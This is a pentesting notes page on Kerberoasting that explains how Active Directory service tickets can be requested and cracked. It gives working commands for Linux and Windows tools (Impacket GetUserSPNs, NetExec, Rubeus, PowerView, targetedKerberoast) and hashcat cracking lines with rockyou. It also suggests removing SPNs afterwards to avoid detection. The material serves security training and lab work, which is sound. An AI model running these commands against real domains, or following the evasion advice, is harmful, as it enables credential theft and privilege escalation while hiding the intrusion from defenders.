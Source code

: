 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Kerberoasting

## Concept

**Kerberoasting** is an attack on the **Service Ticket (ST)** and **Service Principal Names (SPNs)**. [SPNs](../recon.md#spns) are unique IDs that Kerberos uses to map a service instance, for example MySQL, to a service sign-in account, such as `svc_mysql`, in whose, often privileged, context the service is running. The ST is encrypted with the service's account NTLM hash, so it can potentially be cracked. **Any domain user can request a ST from the DC for any SPN account**.

> _Accounts like `krbtgt`, **computer accounts**, and **(g)MSAs** are usually resistant due to complex, long passwords._

<figure><img src="../../../.gitbook/assets/kerberoasting_process (1).png" alt=""><figcaption><p>Figure 1: The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

> _Typically,_ [_Kerberoasting_](kerberoasting.md) _happens after compromising a domain user. However, according to_ [_new research_](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/)_, it is possible to perform this attack with an account susceptible to ASREPRoast (for an example of this check_ [_Rebound_](../../../boxes/insane/rebound.md#kerberoasting)_)._

## Attack

{% tabs %}
{% tab title="Linux" %}
We can check if an account has an SPN using [PowerView](../../../tools/active-directory/powerview.md).

```bash
# Confirm that the target account has SPN
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

> If time sync errors occur, i.e., `KRB_AP_ERR_SKEW(Clock skew too great)` :
>
> ```bash
> sudo ntpdate 192.168.50.70
> ```

Then we can proceed to Kerberoast the target account with [NetExec](../../../tools/active-directory/netexec-cme.md) or [Impacket](../../../tools/active-directory/impacket.md)'s `GetUserSPNs`.

{% code overflow="wrap" %}
```bash
# Kerberoast the target account with NetExec
nxc ldap 192.168.0.104 -u user -p pass --kerberoasting output.txt

# Kerberoast the target account with Impacket's GetUserSPNs
impacket-GetUserSPNs -dc-ip 172.16.5.5 DOMAIN/user -request -outputfile spns.lst

# Kerberoast an account susceptible to ASREPRoasting with Impacket's GetUserSPNs
impacket-GetUserSPNs -no-preauth jjones -usersfile dom_users -dc-host 10.10.11.231 rebound.htb/ -outputfile kerb.txt
```
{% endcode %}

> _For an example of Kerberoasting with NetExec check_ [_here_](https://x7331.gitbook.io/boxes/boxes/boxes/easy/active#eop-via-kerberoasting)_._

We can also perform a targeted Kerberoasting with `targetedKerberoast.py`.

```bash
targetedKerberoast.py -v -d <DOMAIN_FQDN> -u <USER> -p <PASSWORD>
```

Finally, we can crack the hashes using [`hashcat`](../../../tools/passwords/hashcat.md).

{% code overflow="wrap" %}
```bash
sudo hashcat -m 13100 hashes.kerberoast rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}
{% endtab %}

{% tab title="Windows" %}
We can check if an account has an SPN using [PowerView](../../../tools/active-directory/powerview.md) or [Rubeus](../../../tools/active-directory/rubeus.md).

```powershell
# Confirm that the target account has SPN with PowerView
Get-DomainUser 'sqldev' | Select serviceprincipalname
# Enumerate all user-linked SPNs and extract TGS-REP hashes with Rubeus
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

Then we can proceed to Kerberoast the target account with [PowerView](../../../tools/active-directory/powerview.md) or [Rubeus](../../../tools/active-directory/rubeus.md).

{% code overflow="wrap" %}
```powershell
# Kerberoast the target account with PowerView
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat

# Kerberoast the target account with Rubeus
.\Rubeus.exe kerberoast /creduser:domain\user1 /credpassword:pass /user:targetUser /outfile:hash.txt /format:hashcat /nowrap

# Kerberoast an account susceptible to ASREPRoasting with Rubeus
.\Rubeus.exe kerberoast /domain:<domain> /dc:<ip> /nopreauth:<user> /spns:<username-list>
```
{% endcode %}

> _For an example of Kerberoasting with Rubeus check_ [_here_](https://x7331.gitbook.io/boxes/boxes/boxes/insane/sizzle#path-to-victory)_._

Finally, we can crack the hashes on our attacking machine using [`hashcat`](../../../tools/passwords/hashcat.md).

{% code overflow="wrap" %}
```bash
sudo hashcat -m 13100 hashes.kerberoast rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}

Optionally, we can clear the SPNs of the target account.

```powershell
# Clear the SPNs of the target account
Set-DomainObject -Identity sqldev -Clear serviceprincipalname
```
{% endtab %}
{% endtabs %}

## Targeted Kerberoasting

If we have `GenericWrite` or `GenericAll` on a user object, we can set an SPN on that user account and then extract and crack the TGS. Remember to clean up by removing the SPN afterward to avoid detection!

## Resources

{% tabs %}
{% tab title="Demo" %}
{% embed url="https://www.youtube.com/watch?v=-3MxoxdzFNI" %}
Kerberoasting in 14 minutes!
{% endembed %}
{% endtab %}

{% tab title="GetUserSPNs" %}
{% embed url="https://www.youtube.com/watch?v=xH5T9-m9QXw" %}
How GetUserSPNs script work behind the scenes!
{% endembed %}
{% endtab %}

{% tab title="Lecture" %}
{% embed url="https://www.youtube.com/watch?v=Jaa2LmZaNeU" %}
{% endtab %}

{% tab title="Article" %}
{% embed url="https://adsecurity.org/?p=3458" %}
A great article detailing the Kerberoasting process.
{% endembed %}
{% endtab %}

{% tab title="targetedKerberoast" %}
{% embed url="https://github.com/ShutdownRepo/targetedKerberoast" %}
{% endtab %}
{% endtabs %}
